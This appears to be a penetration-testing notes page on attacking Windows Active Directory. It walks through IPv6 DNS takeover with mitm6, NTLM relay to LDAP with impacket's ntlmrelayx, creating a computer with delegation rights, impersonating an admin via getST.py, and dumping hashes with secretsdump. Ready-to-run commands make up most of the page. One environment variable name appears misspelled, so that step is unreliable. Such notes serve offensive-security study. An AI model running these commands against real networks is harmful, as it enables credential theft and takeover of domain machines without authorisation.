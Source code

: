 # DNS Takeover + LDAP Relay

ipv6 is setup by default on all windows machines in a network even if the network doesnt utilize v6 so no one is doing dns resolotion for v6 .an attacker can setup a fake dns server and resolve all ipv6 requests in a network and forward them to the DC so we can sniff the authentication and hashs on the way with a tool like MitM6.

{% hint style="info" %}
For DNS takeover to work, the AD CS role must be installed and configured on the domain controller.
{% endhint %}

we run mitm6 on the domain use -i to specify the interface.

```
python mitm6.py -i vboxnet0 -d megacorp.local
```

leave the terminal open, for now we are playing the role of an IPv6 DNS server in the network.

## <mark style="color:red;">LDAP Relay</mark>

we use ntlmrelayx.py script from impacket tools to relay the credentials when a client requests for IPv6 resources.

```
ntlmrelayx.py -6  -t ldaps://[DC address] -wh fakewpad.megacorp.local -l lootme
```

**lootme :** the directory to save the hashes

#### we could use ldap instead of ldaps for LDAP without a certification but most domains use this feature. ipv6 is going to ask for dns every 30 minutes or after restarting the machine.

#### ntlmrelayx.py might not show the success message in the terminal just check the lootme directory.

![](<../../../.gitbook/assets/image (210).png>)

![](<../../../.gitbook/assets/image (207).png>)

#### we can open up the results with firefox

## <mark style="color:red;">NTLM Relay + Kerberos Delegation</mark>

similarly we can use these commands to target WPAD and grab NTLM hashes:

```
# take over DNS with mitm6
sudo mitm6 -hw icorp-w10 -d internal.corp --ignore-nofqdn


# receive connection, create a computer and grant delegation rights
impacket-ntlmrelayx -t ldaps://192.168.56.115 -wh attacker-wpad --delegate-access


# use impacket getST.py to obtain kerberos ticket
getST.py -spn cifs/icorp-w10.internal.corp internal.corp/RDPOF\$ -impersonate admin


# now with this ticket you can do whatever you want
# for example dumping hashes
export KRBCCNAME=admin.ccache
secretsdump.py -k -no-pass icorp-w10.internal.corp
```
